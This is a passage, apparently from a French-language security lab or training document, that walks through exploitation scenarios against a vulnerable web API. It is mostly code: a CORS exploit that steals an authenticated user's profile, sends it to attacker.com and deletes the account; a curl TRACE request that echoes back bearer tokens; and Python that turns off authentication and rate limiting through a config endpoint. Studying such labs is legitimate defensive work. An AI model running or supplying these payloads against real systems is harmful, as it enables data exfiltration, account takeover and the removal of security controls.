 ```python
            secrets[f"ConnectionString_{name}"] = conn_str
    
    return secrets
```

### Scénario 2 : Exploitation de CORS mal configuré
```javascript
// Attaque CORS depuis un site malveillant
async function exploitCORS() {
    const targetAPI = 'http://vulnerable-api.com';
    
    // Voler les données de l'utilisateur authentifié
    const response = await fetch(`${targetAPI}/api/users/profile`, {
        credentials: 'include' // Inclut les cookies de session
    });
    
    if (response.ok) {
        const userData = await response.json();
        
        // Exfiltrer les données
        await fetch('http://attacker.com/steal', {
            method: 'POST',
            body: JSON.stringify(userData)
        });
    }
    
    // Effectuer des actions au nom de l'utilisateur
    await fetch(`${targetAPI}/api/users/delete-account`, {
        method: 'DELETE',
        credentials: 'include'
    });
}
```

### Scénario 3 : Exploitation via méthode TRACE
```bash
# Récupération de headers sensibles via TRACE
curl -X TRACE http://localhost:5000/api/config/trace-enabled \
    -H "Authorization: Bearer secret-token" \
    -H "X-Custom-Secret: my-secret-value"

# La réponse contiendra tous les headers, incluant Authorization
```

### Scénario 4 : Manipulation de configuration
```python
def modify_app_config(base_url):
    """Modifie la configuration de l'application"""
    
    # Mettre l'app en mode debug
    requests.post(f"{base_url}/api/config/settings/update", json={
        "Logging:LogLevel:Default": "Debug",
        "DetailedErrors": "true",
        "Environment": "Development"
    })
    
    # Désactiver la sécurité
    requests.post(f"{base_url}/api/config/settings/update", json={
        "Security:EnableAuthentication": "false",
        "Security:EnableAuthorization": "false",
        "Security:EnableRateLimiting": "false"
    })
    
```